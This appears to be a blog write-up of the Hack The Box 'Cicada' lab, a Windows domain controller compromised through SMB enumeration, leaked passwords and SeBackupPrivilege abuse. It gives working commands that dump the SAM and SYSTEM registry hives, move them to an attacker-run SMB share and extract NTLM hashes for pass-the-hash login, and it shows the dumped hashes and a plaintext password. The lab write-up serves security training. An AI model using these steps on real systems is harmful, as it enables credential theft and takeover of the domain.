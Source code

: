 ```yaml
---
title: HTB Cicada
date: 2024-11-12 08:50:00 +/-TTTT
categories: [Hackthebox, Windows]
tags: [smb, secretsdump, sebackupprivilege]     # TAG names should always be lowercase
description: SMB enumeration revealed credentials, enabling deeper access. Using SeBackupPrivilege, SAM and SYSTEM files were dumped, revealing hashes and granting admin access for root flag.

image:
  path: assets/cicada/cropped-box-cicada.png
---
```








## Introduction
The target machine, `CICADA-DC.cicada.htb`, presents a scenario of Active Directory exploitation and privilege escalation. Initial reconnaissance using Nmap revealed common services, including LDAP, SMB, and Kerberos, indicating its a domain controller.

Through SMB enumeration credentials were obtained, enabling further authenticated enumeration. Exploiting `SeBackupPrivilege`, sensitive files (`SAM` and `SYSTEM`) were extracted and analyzed using tools like Impacket’s `secretsdump.py`, revealing password hashes. This led to full admin access and the root flag.

---
## Initial Enumeration

### Nmap Scan
```sh
nmap -sCV 10.10.11.35         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-26 04:22 UTC
Nmap scan report for 10.10.11.35
Host is up (0.014s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
Initial Nmap Scan Findings:
-  LDAP on ports 389, 636, and 3268/3269 (over SSL).
-  SMB shares on port 445.
-  Kerberos on port 88, indicating Active Directory is in use.
-  CICADA-DC cicada.htb CICADA-DC.cicada.htb

### Fullport scan
This revealed the same ports

---
#### Port 135 RPC
```sh
rpcclient -N -U "" //10.10.11.35 
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> ^C
```
Got access denied on with a null session.

---
#### Port 3269
I navigated in the browser to `https://cicada.htb:3269/` and viewed the ssl cert:
![alt text](assets/cicada/cicada1.png)
- It looks like this host might be a certificate authority


---
### Port 445 smb
```sh
smbclient -N -L //10.10.11.35   

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	DEV             Disk      
	HR              Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share
```
We see there are `HR` and `DEV` shares, which are not default.

```sh
smb: \> ls
  .                                   D        0  Thu Mar 14 12:29:09 2024
  ..                                  D        0  Thu Mar 14 12:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 17:31:48 2024

smb: \> get "Notice from HR.txt"

getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (21.3 KiloBytes/sec) (average 21.3 KiloBytes/sec)
```
This file came with some credentials inside:
##### Creds
```
Cicada$M6Corpb*@Lp#nZp!8
```

Since we have a password we can try to enumerate usernames using netexec:
```sh
nxc smb 10.10.11.35 -u 'guest' -p '' --rid-brute
```


```sh
nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

For additional enumeration ran `enum4linux`:
```sh
enum4linux -a -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35
```
> Found new users and another pasword for david, they will be added to the user & password lists. 

With these credentials I managed to connect to the DEV SMB share:
![alt text](assets/cicada/cicada2.png)
This bakup script contained credentials again:
![alt](assets/cicada/cicada3.png)

---
## Initial access
Finally with these credentials I managed to get a shell using WINRM
![image](assets/cicada/cicada4.png)
Next I used evil-wirm to connect with the target, and the first thing i checked was `whoami /priv`, which reveals that i have the `SeBackupPrivilege` since this privilge is often used for privilege escalation it is a good finding. 
![Pasted](assets/cicada/cicada5.png)

---
### Privilege escalation
Within the spawning directory there were 2 valuable files that can be used for privilege escalation `sam` and `system`, so I saved these files with the following commands since I had the backup privileges:
```powershell
reg.exe save hklm\sam C:\sam.save
```
```powershell
reg.exe save hklm\system C:\system.save
```
Then I started an Impacket smbserver to transfer the files from Windows to linux:
```sh
smbserver.py hacker ./ -smb2support -username 'lol' -password 'lol'
```
Connected to the share: 
```powershell
net use n: \\10.10.14.3\hacker /user:lol lol
```
Transferred the files:
```powershell
move sam.save \\10.10.14.3\hacker
```
```powershell
move system.save \\10.10.14.3\hacker
```

Now with these files on my system I was able to run another impacket tool `secretsdump.py` with the following command:
```sh
secretsdump.py -sam sam.save -system system.save local
---

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
```
Finally with the second part of the administrator hash i was able to evil-winrm to the admin. for the root flag. 

---
## Root flag
Evil-WinRm with the hash to get the root flag.
